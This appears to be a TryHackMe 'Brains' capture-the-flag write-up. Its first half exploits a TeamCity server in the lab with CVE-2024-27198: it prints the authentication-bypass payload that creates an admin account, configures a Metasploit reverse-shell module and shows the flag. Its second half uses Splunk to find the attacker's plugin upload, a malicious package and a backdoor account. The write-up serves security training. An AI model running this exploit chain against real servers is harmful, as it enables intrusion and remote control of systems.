

# Brains

# Introduction

This challenge is divided into 2 parts.

The first part is about exploitation



And the second part is about Detection


# Red: Exploit the Server!

## Initial Port Scan

We will first use RustScan to run a full port scan

```bash
└─$ rustscan -a brains.thm --ulimit 5000 -- -A
...
Open xx.xx.xxx.xx:22
Open xx.xx.xxx.xx:80
Open xx.xx.xxx.xx:40313
Open xx.xx.xxx.xx:50000
...
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a7:72:fd:8b:4f:b2:e8:d4:d5:2e:b9:31:c7:5f:93:b9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCdGiRUyM7o3ujLkPAfVKx6Vm8oOTvHqRZBSRmwE2v5tqln9SgkV8uHvGXlPNnDOzc53YQo28KX64OyThWoqRL3NnvSWQtyhYRqn88MtUyQBr0Z8rlusIK2YmSfxRxTJGsbxLeXGB8jKOJ+4EPX55f2t1sMN6yrihaS4vKD8pz1YdnUo0vyQaLrZKi6VxkzsFu8IO0QXDaapQ4bLNHqn1Oe0cveqc+zQCJ6H/rZZuPhBrBhYfaKBtrjU35yorbiCAP8U+t1A9k2D0/otVmIokj7m9DMkhgORks9FVjky6aupy82fHQzeTxTvuo6aAdZefClh1AvOus0cEbdFuR+njbhz3N/OFiegC7piqtcY05NECGA8FroC4rk5PK5t7vGzwI8omKplVeiY0rctc70DriavLNVSDwWXhVGC/tiuKIx5Ebc4btcPLLMGjlNeOX1pZoxUImr6Z6LJBQ2ODqJgIKaj6Xa35iQgLpQD8P3JSSqOhw4QMwDdou7DiAvR21kal0=
|   256 d5:78:bc:d3:f6:cc:7e:1c:cc:f6:f0:0c:90:33:cf:d6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEzdGWYktYj9W4RMWpOdHJ9iPoIsHGpdLRbWi3zGZxL92YKP750LMgPycdCzhohXxsMh9kuIuJO4L9mUgB57r7g=
|   256 48:6c:92:24:62:21:23:e2:47:2e:63:67:6a:72:67:44 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA9cgb9omC/0vek8TorKJmUdMVT3CWsOPo6VbaNdtCFv
80/tcp    open  http     syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Maintenance
|_http-server-header: Apache/2.4.41 (Ubuntu)
40313/tcp open  java-rmi syn-ack ttl 62 Java RMI
50000/tcp open  http     syn-ack ttl 62 Apache Tomcat (language: en)
|_http-favicon: Unknown favicon MD5: CEE18E28257988B40028043E65A6C2A3
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Log in to TeamCity &mdash; TeamCity
|_Requested resource was /login.html
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Google Android 10.X|11.X|12.X (93%), Adtran embedded (92%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/h:adtran:424rg
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 4.15 (96%), Linux 5.4 - 5.15 (96%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Adtran 424RG FTTH gateway (92%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%)
No exact OS matches for host (test conditions non-ideal).
```

We discover 4 opening ports, they are:

- Port `22`: SSH
- Port `80`: HTTP
- Port `40313`: [Java RMI](https://hacktricks.wiki/en/network-services-pentesting/1099-pentesting-java-rmi.html)
- Port `50000`: HTTP (Tomcat)

## HTTP (Port 80)

It seems the web now undergo maintenance


I then tried to do some web content enumeration and found only `index.php`.

## HTTP Tomcat (Port 50000)

I then take a look at port `50000`, it shows a login page of [TeamCity](https://www.jetbrains.com/teamcity/), a CI/CD tool.


Using `searchsploit`, it seems we can use the authentication bypass exploit

```bash
  └─$ searchsploit teamcity
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
JetBrains TeamCity 2018.2.4 - Remote Code Execution                                                                                                                                                       | java/remote/47891.txt
JetBrains TeamCity 2023.05.3 - Remote Code Execution (RCE)                                                                                                                                                | java/remote/51884.py
JetBrains TeamCity 2023.11.4 - Authentication Bypass                                                                                                                                                      | multiple/webapps/52411.py
TeamCity < 9.0.2 - Disabled Registration Bypass                                                                                                                                                           | multiple/remote/46514.js
TeamCity Agent - XML-RPC Command Execution (Metasploit)                                                                                                                                                   | multiple/remote/45917.rb
TeamCity Agent XML-RPC 10.0 - Remote Code Execution                                                                                                                                                       | php/webapps/48201.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results                          
```

### Exploit CVE-2024-27198

We can download it and run it, and we will find that we can create an admin account with `ibrahimsql:ibrahimsql`, using CVE-2024-27198

```bash
└─$ python 52411.py --url http://brains.thm:50000/ -v

 ████████╗███████╗ █████╗ ███╗   ███╗ ██████╗██╗████████╗██╗   ██╗                                                                                                                                                                          
 ╚══██╔══╝██╔════╝██╔══██╗████╗ ████║██╔════╝██║╚══██╔══╝╚██╗ ██╔╝                                                                                                                                                                          
    ██║   █████╗  ███████║██╔████╔██║██║     ██║   ██║    ╚████╔╝                                                                                                                                                                           
    ██║   ██╔══╝  ██╔══██║██║╚██╔╝██║██║     ██║   ██║     ╚██╔╝                                                                                                                                                                            
    ██║   ███████╗██║  ██║██║ ╚═╝ ██║╚██████╗██║   ██║      ██║                                                                                                                                                                             
    ╚═╝   ╚══════╝╚═╝  ╚═╝╚═╝     ╚═╝ ╚═════╝╚═╝   ╚═╝      ╚═╝                                                                                                                                                                             
                                                                                                                                                                                                                                            
    TeamCity Authentication Bypass (CVE-2024-27198)
                Author: ibrahimsql

=== CVE-2024-27198 TeamCity Exploit ===
Author: ibrahimsql
Target: http://brains.thm:50000/
=============================================

[*] Checking target: http://brains.thm:50000
[+] Target is reachable
[*] Targeting: http://brains.thm:50000/idontexist?jsp=/app/rest/users;.jsp
[DEBUG] Payload: {"username": "ibrahimsql", "password": "ibrahimsql", "email": "ibrahimsql@exploit.local", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}
[*] Attempting authentication bypass...
[DEBUG] Status: 200
[DEBUG] Response: {"username":"ibrahimsql","id":11,"email":"ibrahimsql@exploit.local","href":"/app/rest/users/id:11","properties":{"count":3,"href":"/app/rest/users/id:11/properties","property":[{"name":"addTriggeredBu
[+] Exploit successful!

[SUCCESS] Admin user created!
==================================================
Username: ibrahimsql
Password: ibrahimsql
Login URL: http://brains.thm:50000/login.html
==================================================
[+] Exploit completed!
```

With this, we can go back and login as the newly-created account.


I keep looking at different pages and sections, but there seems to be nothing to exploit.

Then I go to see what users are in this system, and I found `administrator`.


Turns out I can change the password of `administrator`. 


Maybe there is something that only the `administrator` can see, so I change its password to `administrator` and login, but nothing stands out:(


## Metasploit Exploit

Seems this leaves us to `msfconsole`, when we search `teamcity`, we can find a exploit for the CVE we found

```bash
msf > search teamcity

Matching Modules
================
...                                      
   4   exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198  2024-03-04       excellent  Yes    JetBrains TeamCity Unauthenticated Remote Code Execution
   5     \_ target: Java                                         .                .          .      .
   6     \_ target: Java Server Page                             .                .          .      .
   7     \_ target: Windows Command                              .                .          .      .
   8     \_ target: Linux Command                                .                .          .      .
   9     \_ target: Unix Command                                 .                .          .      .
```

We can then configure the options 

```bash
msf6 > use multi/http/jetbrains_teamcity_rce_cve_2024_27198
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set RHOSTS brains.thm
RHOSTS => brains.thm
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > set RPORT 50000
RPORT => 50000
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             brains.thm       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              50000            yes       The target port (TCP)
   SSL                false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                yes       The base path to TeamCity
   TEAMCITY_ADMIN_ID  1                yes       The ID of an administrator account to authenticate as
   VHOST                               no        HTTP server virtual host

Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  xx.xx.xxx.xx     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Java
```

When we use `run`, we should be able to see a Meterpreter section and read the flag.

```bash
meterpreter > cd home
meterpreter > ls
Listing: /home
==============

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040776/rwxrwxrw-  4096  dir   2024-08-02 09:54:40 +0100  ubuntu

meterpreter > cd ubuntu
meterpreter > ls
Listing: /home/ubuntu
=====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  4096  dir   2026-05-18 09:58:22 +0100  .BuildServer
000667/rw-rw-rwx  0     fif   2026-05-18 09:57:20 +0100  .bash_history
100667/rw-rw-rwx  220   fil   2020-02-25 12:03:22 +0000  .bash_logout
100667/rw-rw-rwx  3771  fil   2020-02-25 12:03:22 +0000  .bashrc
040777/rwxrwxrwx  4096  dir   2024-07-02 10:39:13 +0100  .cache
040777/rwxrwxrwx  4096  dir   2024-08-02 09:54:40 +0100  .config
040777/rwxrwxrwx  4096  dir   2024-07-02 10:40:18 +0100  .local
100667/rw-rw-rwx  807   fil   2020-02-25 12:03:22 +0000  .profile
100667/rw-rw-rwx  66    fil   2024-07-02 10:59:35 +0100  .selected_editor
040777/rwxrwxrwx  4096  dir   2024-07-02 10:38:50 +0100  .ssh
100667/rw-rw-rwx  0     fil   2024-07-02 10:39:21 +0100  .sudo_as_admin_successful
100667/rw-rw-rwx  214   fil   2024-07-02 10:46:35 +0100  .wget-hsts
100666/rw-rw-rw-  4829  fil   2024-07-02 15:55:04 +0100  config.log
100666/rw-rw-rw-  38    fil   2024-07-02 11:05:47 +0100  flag.txt

meterpreter > cat flag.txt
THM{faa9bac345709b6620a6200b484c7594}
```

Flag: `THM{faa9bac345709b6620a6200b484c7594}`

# Blue: Let's Investigate

When we start the other machine, we should be able to go to Splunk at port 8000.

Go to Search & Reporting


Then go to Data Summary


Go to `Sourcetypes`, we can see there are `auth_logs`, `packages`, and `teamcity_activities`


### Installed Plugin

I first use `sourcetype="teamcity_activities"` on the filter to see what is happening on Teamcity. 

When I scroll down, I see a plugin log with a weird zip name `AyzzbuXY.zip`, which is suspicious.


Adding `"id=11"`, we can see the activity of this user, which all he did is uploading the zip file.


### Malicious Package

I then take a look at what packages he installed. Because we know the incident should be in `"2024-07-04"`, the full query will be `sourcetype="packages" "2024-07-04"`.

We found there is a strange package called `datacollector`, which is probably for data exfiltration.


### Backdoor Account

There should be a backdoor account for the attacker. 

Go to the `auth_logs` and search for the logs on that day, with the keyword `new` to indicate a new user/group, the full command will be: `sourcetype="auth_logs" date_mday=4 "new"`

We found a new user/group called `eviluser` is created.


